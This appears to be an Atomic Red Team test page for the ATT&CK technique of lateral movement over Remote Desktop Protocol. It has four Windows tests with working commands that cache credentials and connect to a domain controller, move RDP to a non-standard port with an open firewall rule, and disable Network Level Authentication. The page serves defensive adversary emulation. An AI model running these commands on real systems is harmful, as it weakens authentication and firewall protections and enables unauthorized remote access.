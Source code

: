 # T1021.001 - Remote Services: Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/001)
<blockquote>

Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to log into a computer using the Remote Desktop Protocol (RDP). The adversary may then perform actions as the logged-on user.

Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS).(Citation: TechNet Remote Desktop Services) 

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1546/008) or [Terminal Services DLL](https://attack.mitre.org/techniques/T1505/005) for Persistence.(Citation: Alperovitch Malware)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP to DomainController](#atomic-test-1---rdp-to-domaincontroller)

- [Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell](#atomic-test-2---changing-rdp-port-to-non-standard-port-via-powershell)

- [Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt](#atomic-test-3---changing-rdp-port-to-non-standard-port-via-command_prompt)

- [Atomic Test #4 - Disable NLA for RDP via Command Prompt](#atomic-test-4---disable-nla-for-rdp-via-command-prompt)


<br/>

## Atomic Test #1 - RDP to DomainController
Attempt an RDP session via Remote Desktop Application to a DomainController.

**Supported Platforms:** Windows


**auto_generated_guid:** 355d4632-8cb9-449d-91ce-b566d0253d3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;")|
| domain | domain argument default %USERDOMAIN% | string | $Env:USERDOMAIN|
| username | Username argument default %username% | string | $ENV:USERNAME|
| password | Password | string | 1password2!|


#### Attack Commands: Run with `powershell`! 


```powershell
$Server=#{logonserver}
$User = Join-Path #{domain} #{username}
$Password="#{password}"
cmdkey /generic:TERMSRV/$Server /user:$User /pass:$Password
mstsc /v:$Server
echo "RDP connection established"
```

#### Cleanup Commands:
```powershell
$p=Tasklist /svc /fi "IMAGENAME eq mstsc.exe" /fo csv | convertfrom-csv
if(-not ([string]::IsNullOrEmpty($p.PID))) { Stop-Process -Id $p.PID }
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell
Changing RDP Port to Non Standard Port via Powershell

**Supported Platforms:** Windows


**auto_generated_guid:** 2f840dd4-8a2e-4f44-beb3-6b2399ea3771





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| OLD_Remote_Port | Default RDP Listening Port | string | 3389|
| NEW_Remote_Port | New RDP Listening Port | string | 4489|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{NEW_Remote_Port}
New-NetFirewallRule -DisplayName 'RDPPORTLatest-TCP-In' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort #{NEW_Remote_Port}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{OLD_Remote_Port}
Remove-NetFirewallRule -DisplayName "RDPPORTLatest-TCP-In" -ErrorAction Ignore 
Get-Service TermService | Restart-Service -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt
Changing RDP Port to Non Standard Port via Command_Prompt

**Supported Platforms:** Windows


**auto_generated_guid:** 74ace21e-a31c-4f7d-b540-53e4eb6d1f73





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| OLD_Remote_Port | Default RDP Listening Port | string | 3389|
| NEW_Remote_Port | New RDP Listening Port | string | 4489|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{NEW_Remote_Port} /f
netsh advfirewall firewall add rule name="RDPPORTLatest-TCP-In" dir=in action=allow protocol=TCP localport=#{NEW_Remote_Port}
```

#### Cleanup Commands:
```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{OLD_Remote_Port} /f >nul 2>&1
netsh advfirewall firewall delete rule name="RDPPORTLatest-TCP-In" >nul 2>&1
net stop TermService /y >nul 2>&1
net start TermService >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Disable NLA for RDP via Command Prompt
Disables network-level authentication (NLA) for RDP by changing a registry key via Command Prompt
Disabling NLA for RDP can allow remote user interaction with the Windows sign-in screen prior to authentication. According to Microsoft, Flax Typhoon actors used this technique implementation to achieve persistence on victim systems: https://www.microsoft.com/en-us/security/blog/2023/08/24/flax-typhoon-using-legitimate-software-to-quietly-access-taiwanese-organizations/
See also: https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/management/enable_rdp.py

**Supported Platforms:** Windows


**auto_generated_guid:** 01d1c6c0-faf0-408e-b368-752a02285cb2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Default_UserAuthentication | Default UserAuthentication registry value | string | 1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d 0 /t REG_DWORD /f
```

#### Cleanup Commands:
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d #{Default_UserAuthentication} /t REG_DWORD -f >nul 2>&1
```





<br/>
